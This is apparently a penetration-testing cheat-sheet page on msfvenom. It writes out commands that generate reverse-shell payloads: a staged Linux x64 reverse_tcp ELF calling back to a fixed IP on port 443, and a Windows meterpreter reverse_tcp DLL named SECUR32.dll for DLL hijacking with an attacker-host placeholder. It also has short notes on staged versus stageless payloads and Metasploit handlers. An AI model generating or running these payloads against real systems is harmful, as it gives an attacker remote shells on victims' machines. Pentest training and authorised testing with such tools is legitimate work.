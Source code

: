 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```



## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```


## Staged payload

```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile
```

After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything aditional (no metasploit connection), just the netcat listener on the computer.


## crafting a DLL file with a webshell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file
```
[More about DLL highjacking in thick client applications](thick-applications/tca-attacking-thick-clients-applications.md#how-is-dll-hijacking-perform).


